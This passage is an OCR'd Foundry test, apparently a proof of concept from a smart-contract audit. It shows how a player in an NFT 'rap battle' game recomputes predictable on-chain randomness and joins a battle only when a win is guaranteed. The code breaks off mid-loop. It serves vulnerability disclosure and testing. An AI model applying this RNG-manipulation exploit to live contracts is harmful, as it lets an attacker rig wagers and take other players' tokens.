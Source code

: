 ```javascript
function testGoOnBattleOnlyUserWin() public mintRapper {

    /********* Have 2 users that have NFT and 4 cred Tokens **********************************/
    address user2 = makeAddr("User2");
    vm.prank(user2);
    oneShot.mintRapper();

    vm.startPrank(user);
    oneShot.approve(address(streets), 0);
    streets.stake(0);
    vm.stopPrank();

    vm.startPrank(user2);
    oneShot.approve(address(streets), 1);
    streets.stake(1);
    vm.stopPrank();

    vm.warp(4 days + 1);

    vm.startPrank(user);
    streets.unstake(0);
    vm.stopPrank();

    vm.startPrank(user2);
    streets.unstake(1);
    vm.stopPrank();

    // Check the balance of both users after 4 days stake
    assert(cred.balanceOf(address(user)) == 4);
    assert(cred.balanceOf(address(user2)) == 4);

    // User goes on battle as defender
    vm.startPrank(user);
    oneShot.approve(address(rapBattle), 0);
    cred.approve(address(rapBattle), 3);
    rapBattle.goOnStageOrBattle(0, 3);
    vm.stopPrank();

    // User2 manipulates RNG to only go on battle if he wins

    bool win = false;
    // He could calculate the number and check if he wins before deciding to approve the NFT and credToken 
    while (!win) {
        uint256 defenderRapperSkill = rapBattle.getRapperSkill(0);
        uint256 challengerRapperSkill = rapBattle.getRapperSkill(1);
        uint256 totalBattleSkill = defenderRapperSkill + challengerRapperSkill;

        uint256 random =
            uint256(keccak256(abi.encodePacked(block.timestamp, blockhash(block.number - 1), user2))) % totalBattleSkill;

        win = random > defenderRapperSkill ? true : false;

        vm.warp(111 seconds);
        vm.roll(block.number + 1);

        if (win) {
            vm.startPrank(user2);
            oneShot.approve(address(rapBattle), 1);
            cred.approve(address(rapBattle), 3);
            rapBattle.goOnStageOrBattle(1, 3);
            vm.stopPrank();
```